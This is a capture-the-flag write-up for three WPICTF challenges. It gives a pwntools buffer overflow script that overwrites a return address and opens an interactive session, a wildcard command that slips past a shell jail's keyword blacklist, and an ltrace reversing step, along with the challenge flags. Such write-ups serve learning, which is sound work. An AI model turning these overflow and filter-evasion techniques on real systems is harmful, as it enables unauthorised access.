

EZPZ, Pwn, 100pts
==================

Problem
--------
nc ezpz.wpictf.xyz 31337

Solution
--------
We run the following script -

```python
from pwn import *


r = remote('ezpz.wpictf.xyz', 31337)

msg = r.recvline()
print(msg)
address = int(msg.split(' ')[1], 16)  # 16 for hex
r.recvline()

buf  = 'A'*0x88
buf += p64(address)
r.sendline(buf)


r.interactive()
```

This gives the flag - `WPI{3uffer_0verflows_r_ezpz_l3mon_5queazy}`.

Shell-JAIL-1, Pwn, 150pts
==========================

Problem
--------
Download the login private key, then run:

ssh -p 31337 -i login shjail@shelljail1.wpictf.xyz

redundant servers on 31338 and 31339

Solution
---------
The solution was to not use "\*", "sh", "/", "home", "pc_owner", "flag", "txt" in the command to display flag.txt.

So we run - `./access "cat ????.???"`

The flag is - `wpi{MaNY_WayS_T0_r3Ad}`.

Penguin, Reversing, 50pts
=========================

Problem
-------
Find flag.

Solution
--------

We use ltrace to see program flow.

Running `ltrace WPI{1}`

Gives output -  


So we keep doing that, and finally get the flag - `WPI{strings_only_gives_you_wings,_you_still_have_to_learn_how_to_fly._try_hexedit}`.
